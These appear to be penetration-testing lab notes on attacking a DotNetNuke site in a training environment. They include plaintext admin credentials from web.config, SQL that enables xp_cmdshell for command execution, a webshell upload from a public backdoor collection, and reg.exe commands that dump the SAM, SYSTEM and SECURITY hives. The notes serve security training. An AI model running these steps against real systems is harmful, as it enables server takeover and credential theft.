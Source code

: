 ![[Pasted image 20250307154434.png]]

#### Admin Login
`http://dnn.inlanefreight.local/Login?returnurl=%2fadmin`

#### Credentials
Credentials stored in `web.config`
```xml
<?xml version="1.0"?>
<SNIP>
  <username>Administrator</username>
  <password>
	<value>D0tn31Nuk3R0ck$$@123</value>
  </password>
  <system.web>
    <compilation debug="true" targetFramework="4.5.2"/>
    <httpRuntime targetFramework="4.5.2"/>
  </system.web>
```

#### RCE
`Settings` -> `SQL Console
```sql
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE

xp_cmdshell whoami
```

 RCE via webshell
`Settings` -> `Security` -> `More` -> `More Security Settings` -> `Allowable File Extensions`

Upload [ASP webshell](https://raw.githubusercontent.com/backdoorhub/shell-backdoor-list/master/shell/asp/newaspcmd.asp) to `http://dnn.inlane.local/admin/file-management` and select `Get URL`

![[Pasted image 20250307162207.png]]

Root = `c:\DotNetNuke\Portals\0`

```powershell
reg.exe save HKLM\SAM c:\DotNetNuke\Portals\0\sam.bak ; reg.exe save HKLM\SYSTEM c:\DotNetNuke\Portals\0\system.bak ; reg.exe save HKLM\SECURITY c:\DotNetNuke\Portals\0\security.bak
```